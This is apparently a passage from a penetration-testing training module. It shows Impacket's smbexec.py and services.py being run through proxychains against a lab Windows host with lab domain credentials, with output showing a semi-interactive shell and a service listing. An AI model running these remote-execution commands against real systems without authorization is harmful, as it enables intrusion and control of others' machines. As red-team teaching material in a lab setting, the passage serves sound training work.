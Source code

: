 ```shell-session
```

### smbexec.py
The [smbexec.py](https://github.com/fortra/impacket/blob/master/examples/smbexec.py) method leverages the built-in Windows SMB functionality to run arbitrary commands on a remote system without uploading files, making it a quieter alternative.

Communication occurs exclusively over TCP port 445. It also sets up a service, using only MSRPC for this, and manages the service through the `svcctl` SMB pipe.

To use this tool, we must provide the domain name, administrator user, password, and the target IP address `<domain>/<user>:<password>@<ip>`:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q smbexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

As we can see, we now have established a semi-interactive shell on the host.

### services.py

The [services.py](https://github.com/fortra/impacket/blob/master/examples/services.py) script in Impacket interacts with Windows services using the [MSRPC](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) interface. It allows starting, stopping, deleting, reading status, configuring, listing, creating, and modifying services. During Red Teaming assignments, many tasks can be greatly simplified by gaining access to the target machine's services. This technique is non-interactive, meaning that we won't be able to see the results of the actions in real time.

We can view a list of services in the target host, by typing the command `list` after providing the domain name, the administrator account, the password, and target IP address `<domain>/<user>:<password>@<ip>`:



```shell-session
BusySec@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 list
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Listing services available on target
                      1394ohci -                                    1394 OHCI Compliant Host Controller -  STOPPED
                         3ware -                                                                  3ware -  STOPPED
                          ACPI -                                                  Microsoft ACPI Driver -  RUNNING
                       AcpiDev -                                                    ACPI Devices driver -  STOPPED
                        acpiex -                                                Microsoft ACPIEx Driver -  RUNNING
                      acpipagr -                                       ACPI Processor Aggregator Driver -  STOPPED

...SNIP...

          WpnUserService_7a815 -                          Windows Push Notifications User Service_7a815 -  RUNNING
                          KQWG -                                                                   KQWG -  RUNNING
Total Services: 543
```
